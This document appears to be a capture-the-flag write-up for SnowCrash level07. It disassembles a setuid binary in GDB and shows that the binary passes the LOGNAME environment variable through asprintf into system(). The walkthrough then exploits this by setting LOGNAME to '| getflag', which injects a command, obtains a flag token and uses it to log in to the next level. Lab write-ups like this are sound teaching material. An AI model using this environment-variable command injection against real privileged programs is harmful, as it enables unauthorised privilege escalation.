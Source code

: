 # level07

- We login as user level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

level07@SnowCrash:~$ ./level07
level07

level07@SnowCrash:~$ ./level07 abc
level07
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
level07@SnowCrash:~$ gdb ./level07
...
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- The program calls `<getenv@plt>` after pushing the address (`0x8048680`) onto the stack, which points to the value of the parameter of this function.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` will thus save the value of the `LOGNAME` environment variable in the `eax` register, and this value will be passed as a parameter to the `<asprintf@plt>` function. Note that the address `0x8048688` is also pushed onto the stack to be used by `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- Then, `<asprintf@plt>` will store in the `eax` register the address pointing to the beginning of the string `/bin/echo %s`, where `%s` will be replaced by the contents of the `LOGNAME` environment variable.
The resulting string will be executed by calling `<system@plt>`, so:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```